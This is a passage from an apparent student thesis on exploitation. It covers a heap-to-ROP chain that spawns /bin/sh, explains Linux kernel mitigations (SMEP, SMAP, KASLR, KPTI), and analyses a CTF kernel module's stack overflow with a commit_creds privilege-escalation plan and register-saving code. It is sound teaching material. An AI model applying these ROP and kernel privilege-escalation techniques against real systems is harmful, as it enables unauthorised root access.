        \label{fig:arb_write}
    \end{figure}
  
    In the fig \ref{fig:arb_write} we can see how in the fd field of the chunk inside the tcache of size 0x80 we have changed the fd with the address of \texttt{environ + 0x120} subsequently we will see how to approach the last step, write a ROP that allows us to do remote command execution.\newline
    \clearpage
    \paragraph{rop attack and remote command execution}
    Finally we need to write the rop that will allow us to spawn a /bin/sh shell so as to execute commands remotely.\newline
    As explained in the stack buffer overflow chapter, rop is an attack that allows us to execute instructions and jump to another instruction via ret.\newline
    The rop structure of the rop that we will execute will look like this:
    \begin{verbatim}
        pop rdi; ret;
        address of "/bin/sh\x00"
        system 
    \end{verbatim}
    In this way the return address will insert the address of "/bin/sh" into the rdi register and ret will point to the system call inside the libc.\newline
    So we will make a call to system("/bin/sh").\newline
    Last but not least, our menu that allows us to add, edit, inspect and remove notes is inside a while true and even if the return address of main will be overwritten we will never call it.\newline
    Fortunately there is a call to exit that allows us to exit the while true and call return 0 of main which pops our shell correctly.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.9\linewidth]{Images/RCE_chall_heap.png}
        \caption{Remote Command Execution.}
        \label{fig:enter-label}
    \end{figure}
\chapter{Stack buffer overflow in the linux kernel}
    \section{Kernel Linux internals}
    \paragraph{Linux background}
    In 1991, Linus Torvalds, a Finnish student, developed Linux as a kernel for a new operating system. Based on Unix and distributed under an open source license, Linux quickly attracted the attention of the computing community. \newline
    Its collaborative development model has led to widespread adoption in industries such as servers, embedded devices, and desktops.\newline
    The most popular distributions of Linux have made Linux a popular choice for a wide range of computing uses.\newline
    \paragraph{Architecture}
    \subparagraph{monolithic kernel}
    Linux is a monolothic kernel therefore designed as a single module that manages all the functionality of the operating system.\newline
    This implies that all external drivers must also have some part running in kernel mode.\newline
    \subparagraph{User space and kernel space}
    The memory inside the kernel is divided into various parts,as user space and kernel space.\newline
    User space is that portion of memory with which the user interfaces, therefore that memory where all the processes generated by the user operate, in this region the permissions will be limited.\newline
    Instead, the kernel space is a privileged area where the kernel has complete and direct access to all hardware resources.\newline
    Critical operations for the operation of the system are carried out in this region.\newline
    The kernel space is inaccessible directly from users and user applications.\newline
    The only way to communicate between user space and kernel space is through system calls that allow the user to request kernel services.\newline
    \subparagraph{Linux kernel modes}
    In the paragraphs above, some Linux kernel modes have already been mentioned, in fact in order to manage permissions and memory sections correctly there are various modes in which the kernel operates.\newline
    Some of these are User mode, Kernel mode, Long mode, Protected mode and many others.\newline
    In this thesis the modes that will interest us most will be:\newline
    \begin{itemize}
        \item[$\bullet$] Kernel mode
        \item[$\bullet$] User mode
    \end{itemize}
    kernel mode: In this mode the kernel has full access to hardware resources and system privileges.\newline
    It is used to execute kernel code and to perform operations that require elevated privileges such as memory and device management.\newline
    User mode: Code that runs in this mode has limited privileges and does not have direct access to memory and hardware resources, but most applications are run in this mode.\newline
    \subparagraph{Talking to the Linux kernel}
    As we have just explained, there are various modes and many types of memory sections, but in the context of exploitation we are interested in analyzing functions that we can achieve so as to trigger bugs and exploit them.\newline
    So saying, it is essential to understand how a userspace program communicates with the kernel.
    There are many modalities, the ones we will analyze today will be:\newline
    \begin{itemize}
        \item[$\bullet$] Syscalls
        \item[$\bullet$] Pseudo-device
        \begin{itemize}
            \item[$\circ$] IOCTLs
        \end{itemize}
        \item[$\bullet$] copy\_to\_user and copy\_from\_user

    \end{itemize}
    \clearpage
    Syscall: 
    Syscalls or system calls have the task of requesting services from the kernel such as file management, process creation, hardware management and many other things.\newline
    Communication between user space and kernel space occurs according to some points:\newline
    \begin{itemize}
    \item Request from User Space: A user program requests sends a service request to the kernel via a syscall, the call can be called from an ELF executable for example.\newline
    \item Passing parameters:The syscall specifications are defined in the registers as rax (defines the syscall number), rdi (usually a pointer to the file descriptor) and so for each syscall all registers have an identifier.\newline
    \item Kernel Space transition and syscall management: At this point, based on the parameters passed, if there are no errors, the kernel executes the system call, and if necessary returns a value.\newline
    \item Return to the User Space: As a final step, the kernel returns control to the user process.\newline
\end{itemize}
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.8\linewidth]{Images/syscall.png}
        \caption{System calls}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    Pseudo-Device:Pseudo-devices are virtual devices that provide a user interface for accessing specific kernel functionality, are usually exposed under /dev /proc.\newline
    They support operations such as reading and writing and many others.
    An example is:
    \begin{verbatim}
        int main(){
            char buff[10];
            int fd = open("/dev/urandom", 0_RDONLY);
            read(fd, buf, 10);
            return 0;
        }
    \end{verbatim}
    IOCTLs: stands for input/output control and is nothing more than a system call for a specific device that implements an operation that cannot be expressed by a regular semantic file.\newline
    Like a normal system call it requires parameters and will subsequently communicate with the kernel like a normal syscall.\newline
    An IOCTL example follows: 
    \begin{verbatim}
        #include <sys/ioctl.h> 
        #define IOCTL_READ 0x1 
        typedef struct arg { 
            char *msg; 
            size_t len;
         } arg_t; 
        int main() { 
            int fd = open("/dev/hello", O_RDWR); 
            if (fd == -1) { 
                perror("open()"); 
                exit(1); 
            } 
            int len = 20; 
            char *buf = calloc(len, sizeof(char)); 
            arg_t args = { 
                .msg = buf, 
                .len = len 
            }; 
            ioctl(fd, IOCTL_READ, &args); 
            printf("read: %s\n", args.msg); 
            close(fd); 
            free(buf); 
            return 0; 
         }
    
    \end{verbatim}
    \clearpage
    Safely copying data between user and kernel space: 
    \begin{itemize}
        \item copy\_from\_user:This is a function implemented by the kernel that allows you to copy data from user space to kernel space, usually taking a pointer to the destination buffer, a pointer to the buffer from which to copy and the size of the data to be copied.\newline
        \item copy\_to\_user:This is a function implemented by the kernel that allows you to copy data from the kernel space to the user space, usually taking a pointer to the destination buffer, a pointer to the buffer from which to copy and the size of the data to be copied.\newline
    \end{itemize}
    Follow an example of copy\_from\_user and copy\_to\_use:\newline
    \begin{verbatim}
        unsigned long _copy_to_user(void __user *to, const void *from, unsigned long n) 
        { 
        ... 
            if (access_ok(to, n)) { 
                instrument_copy_to_user(to, from, n); 
                n = raw_copy_to_user(to, from, n); 
            } 
        ... 
        } 
        unsigned long _copy_from_user(void *to, const void __user *from, unsigned long n) 
        { 
            ... 
            if (... && likely(access_ok(from, n))) { 
                instrument_copy_from_user(to, from, n); 
                res = raw_copy_from_user(to, from, n); 
            } 
            ... 
        } 
    \end{verbatim}
    \section{how it works a kernel stack buffer overflow in the linux kernel}
    Buffer overflow on the Linux kernel follows the logic of normal stack buffer overflow in user memory.
    A buffer overflow on the kernel occurs when we can write more input than the buffer that the program makes available can contain.\newline    
    \begin{verbatim}
    int unsafe_function(void) {
      char buffer[16];
      int ret;
      struct file *file = filp_open("/path/to/file", O_RDONLY, 0);
      if (IS_ERR(file)) {
            printk(KERN_ERR "Error   opening file\n");
            return PTR_ERR(file);
      }
      ret = copy_from_user_n(buffer, file->f_dentry->d_inode->i_private, len);
          if (ret < 0) {
            printk(KERN_ERR "Failed copy\n");
            filp_close(file);
        return ret;
      } 
      filp_close(file);
    
      return 0;
}    
    \end{verbatim}
    The code above may be vulnerable, in fact in the call to copy\_from\_user the size of the second argument buffer is not checked, if by chance this buffer exceeds sixteen characters a buffer overflow will occur on the kernel.\newline
    The technique of exploiting a buffer overflow within the kernel is similar to that seen in the second chapter except that we are in a different structure and we have new mitigations that will be explained later.\newline
    \clearpage
    \section{mitigations}
    The Linux kernel is vital for all Linux-based systems. However, due to its extensive codebase, numerous bugs are continually being identified by researchers. To address this, the Linux kernel incorporates multiple mitigations, making exploitation techniques significantly challenging.\newline
    In this chapter we will examine some of the main mitigations present in the Linux kernel, including:
    \begin{itemize}
        \item[$\bullet$] SMEP (Supervisor Mode Execution Prevention)
        \item[$\bullet$] SMAP (Supervisor Mode Access Prevention) 
        \item[$\bullet$] KASLR (Kernel Address Space Layout Randomization)   
        \item[$\bullet$] KPTI (Kernel Page Table Isolation).\newline 
    \end{itemize}
    We'll see how these mitigations work together to fight against attackers.\newline
    Additionally, critical issues and how these mitigations can be bypassed will be discussed.\newline
    \subsection{SMEP}

    \paragraph{User space and Kernel space}

   SMEP mitigation in the Linux kernel is a key response to thwarting vulnerabilities and cyberattacks that seek to execute user code within the kernel's privileged space. Implemented as a preventative measure, SMEP helps strengthen the security of the Linux operating system by restricting the execution of user code in the context of the kernel, but before talking about this mitigation we need to specify some Linux kernel internals.\newline
    SMEP's main job is to make user space memory pages non-executable while the process is in kernel mode. Inside the Linux kernel smep can be activated by setting the twentieth bit to 1 of the CR4 control register.\newline
    SMEP making the stack non-executable is very reminiscent of nx mitigation explained in the second chapter.\newline
    To bypass SMEP we will have to write a ROP instead of using a shellcode.\newline 
    To check if the mitigation is active just run the following commands: \newline
        \begin{verbatim}
        command:
            grep -o smep /proc/cpuinfo
        output: 
            smep
    \end{verbatim}
    \subsection{SMAP}
    SMAP (Supervisor Mode Access Prevention) is one of the main mitigation of the Linux kernel, we will also interface with this mitigation after in the exploiting phase.\newline
    The task of this mitigation is to marks all user space pages as inaccessible when the process is in kernel mode, and prevents kenel space from reading or writing user space memory.\newline
    SMAP In the linux kernel is enabled by setting the twenty-first bit of Control Register CR4.\newline
    To check if the mitigation is active just run the following commands: \newline
      \begin{verbatim}
        command:
            grep -o smap /proc/cpuinfo
        output: 
            smap
    \end{verbatim}
    \subsection{kaslr}

    As we saw previously in the Stack Buffer Overflow chapter, stack randomization is carried out by ASLR, even in the Linux kernel there is an address randomization that prevents sensitive data from being called directly, this is called KASLR. \newline
    KASLR as ASLR for the stack, randomize the addresses  of the code and data sections of the linux kernel and device drivers.\newline
    Unlike aslr which randomizes memory sections every time a program is started in userspace, the linux kernel cannot shut down after the power-on phase, so KASLR will randomize addresses once after the boot phase.\newline
    Consequently, if we manage to leak an address after booting the kernel, the randomization will always be the same.\newline
    Since the beginning of 2020, a new version of kaslr has been released and it is called FGKASLR, which stand for Functions Granular Kernel Address Space Layout Randomization.\newline 
    This is a technology that randomizes addresses for each function in the Linux kernel.\newline 
    Although the address of a function in the Linux kernel can be leaked, it is not possible to determine the base address, the only way to leak the base is to extrapolate a pointer to the data section, in fact this is not randomized and allows you to find the base address.\newline
    an example of the randomization follows, in all cases I executed the command cat proc/kallsyms | grep commit\_creds we will discover later in the thesis that this address will be very useful to us:\newline
    \begin{verbatim}
    KASLR disabled 
        0xffffffff814c6410
    first case KASLR enable  
        0xffffffffaf7e4640
    second case KASLR enable
        0xffffffff84349500
    \end{verbatim}
    As we can see from the example above, kaslr only randomizes the last 8 nibbles and therefore the last 4 bytes, however KASLR will be impossible to brute because unlike ASLR if the kernel panics during the brute force we will lose all the brute work we have done up until now to kernel panic.\newline
    To check if the mitigation is active just run the following commands: \newline
    \begin{verbatim}
    command:
        sysctl kernel.randomize_va_space                  
    output:
        kernel.randomize_va_space = 2

    \end{verbatim}
    \clearpage
    \subsection{kpti}
    KPTI (kernel page table isolation) or the old name KAISER (short for Kernel Address Isolation to have Side-channels Efficiently Removed) is a mitigation that was introduced in 2018 after a very famous hardware attack called meltdown.\newline
    The meltdown attack allowed you to read the kernel memory with user privileges allowing you to simply bypass KASLR, which is why the KPTI mitigation was born.\newline
    As you know, a page table is used when converting a virtual address to a physical address, and this security mechanism separates this page table between user mode and kernel mode.\newline
    The implementation of kpti led to a notable drop in performance and worse memory management.\newline
    Below is a photo that explains memory management with kpti active: \newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/kpti.png}
        \caption{kernel page table isolation}
        \label{fig:enter-label}
    \end{figure}
    \clearpage
    \section{How to exploit a stack buffer overflow in the linux kernel}
    \subsection{Introduction}
    In this section we will analyze a vulnerable kernel module.\newline
    By running the uname -r command we will notice that we are facing the following kernel version:\newline
    5.10.7 a fairly old version.\newline
    However, exploitation and mitigation bypass techniques also work in more recent kernels.\newline
    By downloading the challenge we will notice that we will have 2 main folders:\newline
    \begin{itemize}
        \item qemu 
        \item src 
    \end{itemize}
    The directory src contains the source code of the driver kernel and the file .ko .\newline
    The directory qemu contains the bzImage that is a compressed image of the kernel, and the rootfs.cpio which is a compressed archive that contains the root filesystem of the operating system.\newline
    once decompressed we will find the rootfs therefore trivially all the directories /bin /sbin /etc and all the rest that I have not named. \newline
    inside the qemu folder we also find the run.sh file which contains the following code:\newline
    
    \begin{verbatim}
        #!/bin/sh
        qemu-system-x86_64 \
            -m 64M \
            -nographic \
            -kernel bzImage \
            -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=1 kaslr +smep +smap" \
            -no-reboot \
            -cpu qemu64 \
            -smp 1 \
            -monitor /dev/null \
            -initrd rootfs_updated.cpio \
            -net nic,model=virtio \
            -net user \
            -gdb tcp::12345 \
    \end{verbatim}
    The kernel is set up via qemu, a system that allows you to emulate an environment you want to launch, qemu is used for various reasons, such as:\newline
    Be safer and not launch a vulnerable kernel on your computer, qemu allows you to manage memory and finally we can debug the kernel with gdb even if in a limited way because it is emulated.\newline
    The code above specify the image kernel we want to run with the field -kernel the mitigations we want to apply to the system in the field -appen, we can see that there are all mitigations activated, and some other details.\newline

    \subsection{Reverse engineering}
    As with real word applications, the kernel source code is present, this facilitates the reverse engineering part.\newline
    In fact, we won't have to waste time understanding structures that decompilers don't interpret.\newline
    Four trivial functions write, read, open, close are implemented in this kernel module.\newline
    I will focus on explaining only the most important bug that resides in the write, the code of this function follows:\newline
    \begin{verbatim}
        static ssize_t module_write(struct file *file,
        const char __user *buf, size_t count, loff_t *f_pos)
            {
              char kbuf[BUFFER_SIZE] = { 0 };
            
              printk(KERN_INFO "module_write called\n");
            
              if (_copy_from_user(kbuf, buf, count)) {
                printk(KERN_INFO "copy_from_user failed\n");
                return -EINVAL;
              }
              memcpy(g_buf, kbuf, BUFFER_SIZE);
            
              return count;
            }
    \end{verbatim}
    The bug inside this code is very simple but unfortunately the code above is missing a detail to understand the bug.\newline
    In fact, in the copy\_from\_user call the count variable will be decided by the user and kbuf has a maximum size of 0x400, so what could happen if we put 0x450 user input?\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/kernel_panic.png}
        \caption{kernel panic}
        \label{fig:enter-label}
    \end{figure}

    
    We managed to overwrite the return address with the value 0x4141414141414141 causing a kernel panic, and having return address control.\newline
    \subsection{Attack plan and Exploit analysis}
    As seen previously we have RIP control, in this section we will see how to do privilege escalation and bypass active mitigations.\newline
    The goal is to call the following function via a ROP:\newline
    \begin{verbatim}
        commit_creds(prepare_kernel_cred(NULL));
    \end{verbatim}
prepare\_kernel\_cred(NULL) creates a new set of credentials with kernel privileges, commit\_creds updates the current process credentials to those created by prepare\_kernel\_cred.\newline
    Once the chain that will allow us to do LPE is finished, we will have the entire stack destroyed because the ROP modifies registers on which the kernel performs integrity checks, so before returning to user space and running a shell as if nothing had happened, we will have to restore these logs.\newline
    There is no point in gaining root privileges if the program crashes or the process terminates.\newline
   Using the following shellcode we will slave the state of the registers before the ROP.\newline
    \begin{verbatim}
    static void save_state() {
      asm(
          "movq %%cs, %0\n"
          "movq %%ss, %1\n"
          "movq %%rsp, %2\n"
          "pushfq\n"
          "popq %3\n"
          : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
          :
          : "memory");
    }
    
    \end{verbatim}
    The shellcode we see above allows us to save the registers of the stack segment code segment, RSP can have any value inside the stack and RIP we can set it so that it points to a function that launches a shell.\newline
    At this point just write a function that calls commit creds and prapare\_kernel\_creds and we have a root shell?\newline
    Absolutely not, unfortunately SMEP comes into play, in fact when the RIP is overwritten and tries to point and execute a function that is kernel space but is executable as user mode SMEP will block the execution with the following error:
    \begin{verbatim}
        unable to execute userspace code (SMEP?)
    \end{verbatim}
    
\chapter{Conclusion}
    In this thesis, various exploitation techniques on different types of memories and environments have been covered, in addition it has been analyzed how mitigations can prevent certain types of attacks from being performed and finally how to bypass these through examples.\newline
    However, my humble opinion is that as time goes on, increasingly powerful mitigations will be implemented and perhaps programming languages will be changed with more secure languages such as rust and many others, making attacks very complicated if not impossible.\newline
    This is not to say that there will no longer be techniques with which future mitigations will be bypassed, but perhaps companies will no longer be interested because too much effort will have to be used to develop.\newline
    The only companies that will be affected will probably be big tech.\newline
    But unfortunately I don't predict the future, so we'll only find out by living.\newline
    \section{online references}
    \href{https://it.wikipedia.org/wiki/Home_page}{wikipedia}\newline
    \href{https://it.wikipedia.org/wiki/Home_page}{Heap Lab course}\newline
    \href{https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation}{SafeLinkingblog}\newline 
    \href{https://docs.pwntools.com/en/stable/}{Python library pwntools}\newline\
    \href{https://elixir.bootlin.com/}{Linux kernel/Glibc source}\newline
    \href{https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/}{Linux kernel exploitation blog}

\end{document}
